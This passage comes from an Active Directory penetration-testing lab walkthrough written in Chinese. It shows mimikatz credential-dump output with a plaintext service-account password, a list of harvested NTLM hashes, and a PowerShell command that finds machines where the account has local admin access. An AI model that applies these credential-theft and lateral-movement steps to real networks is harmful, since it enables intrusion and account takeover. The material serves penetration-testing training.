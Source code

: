          * Username : websvc
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : AServicewhichIsNotM3@nttoBe
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:23 AM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-ADMINSRV$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:22 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : DCORP-ADMINSRV$
         * Domain   : dcorp
         * Password : (null)
        kerberos :
         * Username : dcorp-adminsrv$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

mimikatz(powershell) # exit
Bye!
```

收集到的哈希信息：
```
srvadmin：a98e18228819e8eec3dfa33cb68b0728
appadmin：d549831a955fee51a43c83efb3928fa7
dcorp-adminsrv$：5e77978a734e3a7f3895fb0fdbda3b96
websvc：cc098f204c5887eaa8253e7c2749156f
```
这里注意srvadmin不是DA组成员

DA成员应该是svcadmin

查看当前权限账号可以以本地管理员登录的计算机
```
PS C:\ad> . .\Find-PSRemotingLocalAdminAccess.ps1
PS C:\ad> Find-PSRemotingLocalAdminAccess
dcorp-adminsrv